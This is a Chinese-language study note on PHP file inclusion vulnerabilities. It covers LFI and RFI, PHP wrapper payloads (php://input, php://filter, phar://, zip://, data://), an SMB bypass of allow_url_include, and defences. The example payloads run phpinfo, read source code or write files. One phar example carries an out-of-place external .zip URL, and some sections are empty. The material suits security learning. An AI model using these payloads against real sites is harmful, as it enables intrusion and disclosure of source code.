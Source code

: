 ## 文件包含

[toc]

漏洞概念及原理

漏洞危害

漏洞挖掘方法

漏洞利用条件

漏洞利用手法

漏洞利用的绕过

漏洞防范思路



### 概念或原理

后端具有包含功能的代码接收路径是攻击者可控的,导致包含了预期外的文件

### 漏洞危害

条件满足的情况下:

- 能够执行脚本代码
- 执行系统漏洞
- 读取系统敏感文件

### 漏洞分类

- LFI
- RFI

### include和require的区别

当要包含的文件不存在时，

- include会产生一个警告(Warning)，该语句后面的程序会继续执行；
- require则产生一个致命错误(Fatal error)，程序就此终止。

### include_once(require_once)和include(require)

- include会将指定的文件载入并执行里面的程序，重复引用包含多次；
- include_once函数会将指定的文件载入并执行里面的程序，如果该文件中已经被包含过，则不会再次包含。

### 远程文件包含的条件

一般情况下,需要php.ini中配置allow_url_include=on

### 文件包含漏洞利用方式

- 读取敏感文件、收集信息
- 执行代码和命令:上传文件后包含、构建远程资源并包含、利用php相关伪协议包含

### 典型的系统敏感文件

- Windows

  ```
  
  ```

- Linux

  ```
  
  ```

### php相关伪协议

#### php://input

打开一个文件输入流进行文件内容写入,一般通过POST请求方式写入文件内容

```php
?file=php://input
<?php phpinfo();?>	//脚本内容通过post提交
```

#### php://filter

打开一个文件输入输出流进行读写,常结合base64编码读写不可以直接读写的数据

```php
#读取:
# 明文读取
index.php?file1=php://filter/resource=file.txt

index.php?file1=php://filter/read=convert.base64-encode/resource=index.php	//读取index.php的代码并通过base64编码的方式输出



#写入:
# 明文写入
index.php?file=php://filter/resource=1.txt&txt=welcome to the bugkuctf
=php://filter/resource=1.php&txt=<?php phpinfo();?>

# base64编码写入Qftm到test.txt在中
index.php?file2=php://filter/write=convert.base64-encode/resource=test.txt&txt=Qftm
```

拓展文章

> https://www.anquanke.com/post/id/202510

#### phar://

用于压缩包.zip文件的读取,文件路径可以用绝对路径也可以用相对路径		要求php版本大于5.3.0

```php
?file=phar://../../dvwa/upload/123.zip/123.txt			#相对路径
?file=phar://c:/phpstudy/www/dvwa/upload/123.zip/123.txt	#绝对路径


https://best-sound.info/CKEdit/files/20220925223849.zip
```

#### zip://

功能和用法都和phar://差不多,但只能使用绝对路径,且压缩包内的路径需要用%23来代替/		要求php版本大于5.3.0

```php
zip://c:/phpstudy/www/dvwa/upload/123.zip%23123.txt
```

#### data://

打开一个文件输入流,写入文件内容,使用data://的时候,最好省略php语法中最后的?>

```php
data://text/plain,<?php phpinfo();?>

也可以通过编码传入
data://text/plain;base64,PD9waHAgcGhwaW5mbygpOw==		#<?php phpinfo();		使用编码需要省略?>,不然会报错
    
通过实验发现这个可能是编码的问题因为<?php phpinfo();?>在编成base64的时候出现了+。而浏览器不认识+号。所以解决方法
不写后面的?> 因为PHP里面其实不需要写后面的前面的;号就已经说明结束了。如果没有;号就必须写?>作为结束。
添加空格改变base64编码。
将+号换成%2b
```



### 文件包含漏洞防护思路

在保证功能正常的情况下

关闭allow_url_include

过滤前端输入的`.  .. /  \`

在生成被包含文件的路径字符串后进行正则检查

使用白名单,限定被包含文件的路径和文件名

配置open_basedir的值,限定读写范围

### 使用SMB包含文件(绕过allow_url_include=off)

- Windows

  在程序和功能打开SMB,然后新建一个文件夹,将脚本文件放在该文件夹内后,共享该文件夹并且添加everyone,即可实现文件共享

  ![image-20220925185302782](%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB.assets/image-20220925185302782.png)

  文件包含的时候,直接输入`\\主机名(IP地址或者计算机名称)\共享文件夹名称\文件名`即可包含该文件

  #### 绕过思路:过滤反斜杠

### session

储存位置:session的保存位置在php.ini中`session.save_path`字段设置

session的保存形式:	

### php://filter

# LINUX   locate

```bash
sudo locate /var/lib/mlocate/mlocate.db www
#即可列出系统中包含www的路径,可以用来包含文件
```



